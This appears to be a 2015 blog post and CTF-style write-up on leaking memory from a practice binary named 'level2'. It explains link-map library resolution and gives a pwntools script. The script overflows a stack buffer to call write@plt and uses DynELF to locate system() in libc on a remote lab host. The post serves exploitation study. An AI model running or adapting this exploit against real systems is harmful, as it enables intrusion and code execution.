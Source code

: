 ```yaml
---
layout: post
title: "remote_leak_mem"
date: 2015-09-25 21:24:21 +0800
comments: true
categories: 
---
```

###0x00 exe
exe:
store/leak_remote_mem/level2

###0x01 anaa
Resolving Library Addresses:

1.If we have a pointer into a dynamically-linked executable, we can leverage an internal linker structure called the link map. This is a linked list structure which contains information about each loaded library, including its full path and base address.

2.A pointer to the link map can be found in two ways. Both are referenced from entries in the DYNAMIC array.

3.In non-RELRO binaries, a pointer is placed in the .got.plt area in the binary. This is marked by finding the DT_PLTGOT_ area in the binary.
In all binaries, a pointer can be found in the area described by the DT_DEBUG area. This exists even in stripped binaries.

###0x02 exp

	from pwn import *
	 
	elf = ELF('./level2')
	plt_write = elf.symbols['write']
	plt_read = elf.symbols['read']
	vulfun_addr = 0x08048404
	 
	def leak(address):
	    f = open("input", 'w')
	    payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(address) + p32(4)
	    f.write(payload1)
	    p.send(payload1)
	    data = p.recv(4)
	    print "%#x => %s" % (address, (data or '').encode('hex'))
	    f.close()
	    return data
	 
	 
	 
	#p = process('./level2')
	p = remote('192.168.56.103', 6666)

	 
	d = DynELF(leak, elf=ELF('./level2'))

	system_addr = d.lookup('system', 'libc')
	print "system_addr=" + hex(system_addr)
